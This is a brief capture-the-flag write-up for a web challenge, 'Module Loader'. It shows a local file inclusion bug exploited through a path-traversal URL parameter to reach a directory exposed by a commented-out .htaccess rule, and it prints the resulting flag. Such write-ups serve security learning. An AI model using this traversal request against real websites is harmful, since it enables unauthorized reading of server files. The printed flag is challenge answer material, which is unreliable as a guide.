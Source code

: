 ### Module Loader

100 Points by lucebac (Web)

Since his students never know what date it is and how much time they have until the next homework's deadline, Mr P. H. Porter wrote a little webapp for that.

1. LFI

2. .htacess

<!--
# seems to be not working, though
#<Directory "3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae">
#    Options -Indexes
#</Directory>
# -->

3. 3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae directory:


4. Exploit LFI:

https://school.fluxfingers.net:1522/?module=../3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae/flag.php

5. Flag

flag{hidden_is_not_actually_hidden}